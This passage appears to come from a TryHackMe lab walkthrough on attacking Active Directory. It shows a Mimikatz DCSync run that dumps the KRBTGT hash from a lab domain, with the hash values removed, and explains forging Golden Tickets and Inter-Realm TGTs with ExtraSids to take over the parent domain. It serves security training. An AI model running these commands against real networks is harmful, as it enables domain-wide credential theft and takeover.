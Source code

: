 We will again use Mimikatz with a DC Sync to recover the KRBTGT password hash on THMSERVER2:
~~~bash
C:\Tools>mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /user:za\krbtgt
[DC] 'za.tryhackme.loc' will be the domain
[DC] 'THMDC.za.tryhackme.loc' will be the DC server
[DC] 'za\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 4/25/2022 7:18:22 PM
Object Security ID   : S-1-5-21-3885271727-2693558621-2658995185-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: removed
    ntlm- 0: removed
    lm  - 0: removed
[....]
~~~

## Inter-Realm TGTs

Using the KRBTGT password hash, we could now forge a Golden Ticket to access any resource in the child domain. This will also be discussed in more detail in the Persisting AD room. However, we can take this a step further by forging an Inter-Realm TGT. Inter-Realm TGTs are used to provide access to resources in other domains. In our case, we want to exploit the bidirectional trust relationship between the child and parent domain to gain full access to the parent domain.

We will include extra account SIDs from other domains when we construct the Golden Ticket to perform this exploit. Mimikatz can assist with this, allowing us to set the ExtraSids section of the KERB_VALIDATION_INFO structure of the Kerberos TGT. The ExtraSids section is described as “A pointer to a list of KERB_SID_AND_ATTRIBUTES structures that contain a list of SIDs corresponding to groups in domains other than the account domain to which the principal belongs”.
